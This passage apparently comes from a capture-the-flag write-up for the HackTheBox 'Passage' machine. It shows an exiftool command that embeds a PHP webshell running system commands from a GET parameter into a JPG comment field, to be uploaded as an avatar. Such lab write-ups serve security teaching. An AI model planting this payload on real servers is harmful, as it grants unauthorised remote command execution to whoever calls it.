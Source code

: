 #### Step 2: Crafting Avatar

Personal options button brings us to the `index.php?mod=main&opt=personal` which is the same endpoint as we saw in Metasploit exploit:

![personal](/assets/img/Posts/Passage/personal.png)

Getting a sample jpg image from <https://file-examples.com/index.php/sample-images-download/sample-jpg-download/> and using `exiftool` to inject php webshell in comments section of the image:

```shell
→ exiftool -comment='<?php echo SYSTEM($_GET['cfx']); ?>' cold.jpg
    1 image files updated

cfx:  ~/Documents/htb/passage
→ strings cold.jpg | grep php
#<?php echo SYSTEM($_GET[cfx]); ?>
```
